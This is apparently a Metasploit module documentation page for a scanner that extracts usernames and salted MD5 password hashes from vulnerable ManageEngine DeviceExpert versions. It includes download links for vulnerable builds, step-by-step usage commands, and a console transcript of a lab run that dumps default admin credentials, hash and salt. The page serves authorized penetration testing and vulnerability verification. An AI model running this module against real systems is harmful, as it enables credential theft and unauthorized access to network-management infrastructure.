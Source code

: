 ## Description

  This module extracts usernames and salted MD5 password hashes
  from ManageEngine DeviceExpert version 5.9 build 5980 and prior.


## Vulnerable Software

  [DeviceExpert](http://www.manageengine.com/products/device-expert) is a
  web–based, multi-vendor network configuration and change management (NCCM)
  solution for switches, routers, firewalls and other network devices.

  This module has been tested successfully on DeviceExpert
  version 5.9.7 build 5970 on Windows XP SP3.

  Software download:

  * [5.8 build 5850](http://web.archive.org/web/20130123070454/http://www.manageengine.com/products/device-expert/download.html)
  * [5.9 build 5900](http://web.archive.org/web/20130304043822/http://www.manageengine.com/products/device-expert/download.html)
  * [5.9 build 5950](http://web.archive.org/web/20131029082827/http://www.manageengine.com/products/device-expert/download.html)


## Verification Steps

  1. Do: ```use auxiliary/scanner/http/manageengine_deviceexpert_user_creds```
  2. Do: ```set RHOSTS [IP]```
  3. Do: ```run```
  4. You should receive usernames and associated password hashes + salts


## Scenarios

  ```
  msf5 > use auxiliary/scanner/http/manageengine_deviceexpert_user_creds 
  msf5 auxiliary(scanner/http/manageengine_deviceexpert_user_creds) > set rhosts 172.16.158.131
  rhosts => 172.16.158.131
  msf5 auxiliary(scanner/http/manageengine_deviceexpert_user_creds) > check
  [+] 172.16.158.131:6060 - The target is vulnerable.
  [*] Checked 1 of 1 hosts (100% complete)
  msf5 auxiliary(scanner/http/manageengine_deviceexpert_user_creds) > run

  [*] 172.16.158.131:6060 - Found weak credentials (admin:admin)

  ManageEngine DeviceExpert User Credentials
  ==========================================

   Username  Password  Password Hash                     Role           E-mail                Password Salt
   --------  --------  -------------                     ----           ------                -------------
   admin     admin     3a4ebf16a4795ad258e5408bae7be341  Administrator  noreply@zohocorp.com  12345678

  [*] Credentials saved in: /Users/jvazquez/.msf4/loot/20140926165907_default_172.16.158.131_manageengine.dev_118155.txt
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  msf5 auxiliary(scanner/http/manageengine_deviceexpert_user_creds) > creds 172.16.158.131
  Credentials
  ===========

  host            service           public  private  realm  private_type
  ----            -------           ------  -------  -----  ------------
  172.16.158.131  6060/tcp (https)  admin   admin           Password
  ```

